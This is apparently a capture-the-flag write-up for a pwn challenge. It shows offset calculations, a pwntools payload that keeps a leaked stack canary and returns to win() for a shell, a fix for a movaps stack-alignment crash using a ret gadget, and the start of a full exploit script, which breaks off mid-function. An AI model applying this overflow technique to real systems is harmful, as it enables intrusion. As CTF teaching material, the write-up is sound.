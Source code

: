 By breaking at the first (or second) gets-call in the `vuln()` function we see the address of our buffer (in this case `0x7fffffffe090`)

![Buffer address](pet_canary_buffer_addr.png)

We can then find the address on the stack where the return address is stored (`0x7fffffffe0c8`)

![Return address](pet_canary_ret_addr.png)

The offset from our buffer to the return address is `0x7fffffffe0c8 - 0x7fffffffe090 = 56`. The canary is located 16 bytes before the return address (making it offset 40), and the RBP register address is located between the two (8 bytes before the return address and 8 bytes after the canary), although it is not important to care about RBP for this challenge.

Knowing the offsets we can construct our payload
```python
payload = b"A" * 40          # Offset to canary
payload += pack(canary)      # Overwrite to keep the canary unchanged
payload += pack(0)           # RBP address, doesn't matter for this challenge
payload += pack(exe.sym.win) # Call win() to get shell
```

This payload should call the win-function for us and give us shell, however it doesn't
```console
loevland@hp-envy:~/ctf/lit-ctf/pwn/pet_canary_birthday_pie$ python3 exploit.py
[+] Opening connection to litctf.org on port 31791: Done
[+] Canary: 0x9196a37bd67a9a00
[+] PIE: 0x55ca40956000
[*] Switching to interactive mode
/home/user/run.sh: line 4:     2 Segmentation fault      (core dumped) ./s
[*] Got EOF while reading in interactive
```

The program crashes, so we have to attach pwndbg to see where in the program we crash.

![Stack alignment](pet_canary_stack_align.png)

We crash as `movaps xmmword ptr [rsp], xmm1`, which occurs when the stack is not aligned by 16-bytes, which some x86-64 assembly instructions require, such as `movaps`. This issue can be read further about [here](https://ropemporium.com/guide.html) in the beginning of the **Common pitfalls** section. To bypass this issue we can just add a `ret` instruction in our payload before we call `win()` (The address of the `ret`-instruction can be found with ROPgadget; `ROPgadget --binary <binary_name>`). Our stack-aligned payload becomes
```python
payload = b"A" * 40                   # Offset to canary
payload += pack(canary)               # Overwrite to keep the canary unchanged
payload += pack(0)                    # RBP address, doesn't matter for this challenge
payload += pack(exe.address + 0x101a) # ret-instruction, located at <piebase + 0x101a>
payload += pack(exe.sym.win)          # Call win() to get shell
```

The following is the full script
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './vuln', checksec=False)
context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or 'litctf.org'
port = int(args.PORT or 31791)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
```